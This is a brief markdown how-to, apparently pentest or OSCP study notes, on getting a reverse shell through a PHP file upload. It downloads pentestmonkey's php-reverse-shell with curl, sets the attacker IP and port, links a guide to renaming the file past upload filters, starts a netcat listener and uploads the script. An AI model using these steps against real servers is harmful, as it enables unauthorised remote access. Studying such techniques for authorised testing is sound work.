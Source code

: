 # PHP reverse shell

First, download the script:

    curl -LO https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php

Change `ip` and `port` in the script (use `ip addr` for ip, `port` can be anything that's available):

    nano php-reverse-shell.php

Also probably rename, see [Bypass File Upload Filtering](https://sushant747.gitbooks.io/total-oscp-guide/content/bypass_image_upload.html).

Next, start `nc`:

    nc -lvnp <port>

Finally, upload the script to the server, and open the newly created link.
